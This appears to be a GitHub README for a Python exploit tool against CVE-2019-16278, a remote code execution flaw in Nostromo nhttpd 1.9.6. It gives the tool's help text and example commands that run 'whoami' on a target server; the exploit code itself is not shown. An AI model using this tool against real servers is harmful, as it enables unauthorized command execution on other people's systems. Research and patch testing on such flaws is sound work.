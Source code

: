 # CVE-2019-16278 - Nostromo 1.9.6 RCE
Python script to exploit RCE in Nostromo nhttpd &lt;= 1.9.6.


## Help
```
usage: CVE-2019-16278.py [-h] [-t TARGET] [-p PORT] [-c COMMAND] [-b BYTES]

Exploit for CVE-2019-16278 - Nostromo 1.9.6 RCE

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        Remote host to target
  -p PORT, --port PORT  Remote port to target
  -c COMMAND, --command COMMAND
                        Command to execute on the server
  -b BYTES, --bytes BYTES
                        The number of bytes to receive back in the response
```

## Usage

Run the exploit

```bash
python CVE-2019-16278.py -t 10.10.10.10. -p 80 -c whoami
```

Run the exploit and recieve more bytes in the response

```bash
python CVE-2019-16278.py -t 10.10.10.10. -p 80 -c whoami -b 4096
```

